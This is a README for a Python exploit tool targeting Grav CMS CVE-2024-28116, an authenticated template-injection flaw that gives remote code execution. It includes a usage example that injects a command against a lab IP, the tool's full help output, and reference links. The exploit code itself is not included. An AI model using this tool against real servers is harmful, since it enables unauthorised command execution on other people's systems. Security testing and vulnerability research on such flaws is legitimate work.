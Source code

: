 # Grav CMS Remote Code Execution (Authenticated) - CVE-2024-28116

## Info

_This code is an adaptation from [`Graver` Github repository](https://github.com/akabe1/Graver) with some improvements based on [this video](https://ethicalhacking.uk/videos/CVE-2024-28116/)._

Exploit against `Grav CMS` (for versions below `1.7.45`) based on SSTI + RCE vulnerabilities, labeled as `CVE-2024-28116`. This script basically creates a page with the vulnerability, executes it and, finally, deletes the page after the execution.

## Usage
```shell-session
python3 Grav_CMS_RCE.py -t http://10.10.10.10 -u 'admin' -p 'S3cureP4ssw0rd' -x 'ping -c 1 10.10.10.9'
```

Help message:

```
$ python3 Grav_CMS_RCE.py -h

usage: Grav_CMS_RCE.py [-h] -t TARGET [-P PORT] -u USERNAME -p PASSWORD -x COMMAND [--no-delete-file] [--panel-route PANEL_ROUTE] [--no-banner] [--show-warnings]

Grav CMS RCE (Authenticated).

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL where Grav CMS is running. Example: http://10.10.10.10
  -P PORT, --port PORT  Port running Grav CMS. Default: 80
  -u USERNAME, --username USERNAME
                        Username to authenticate in Grav CMS
  -p PASSWORD, --password PASSWORD
                        Password for the user in Grav CMS.
  -x COMMAND, --command COMMAND
                        Command to inject/run.
  --no-delete-file      Do NOT delete the generated files. Useful to check command execution output.
  --panel-route PANEL_ROUTE
                        Admin Panel route in Grav CMS. Default: /admin
  --show-warnings       Show warnings (if there are).
```

If for some reason we do not want to delete the generated files, we can use `--no-delete-file` flag, visit the page the script indicates and read the command output.

## More info
More CVE-2024-28116/about this exploit info:
- Tested on `Grav CMS v1.7.44 - Admin 1.10.44`.
- [https://github.com/akabe1/Graver](https://github.com/akabe1/Graver)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-28116](https://nvd.nist.gov/vuln/detail/CVE-2024-28116)
- [https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0](https://ethicalhacking.uk/videos/CVE-2024-28116/#gsc.tab=0)
- [https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh](https://github.com/getgrav/grav/security/advisories/GHSA-c9gp-64c4-2rrh)

## Disclaimer
The owner of this repository is not responsible for the usage of this software. It was made for educational purposes only.

## Licence
- MIT
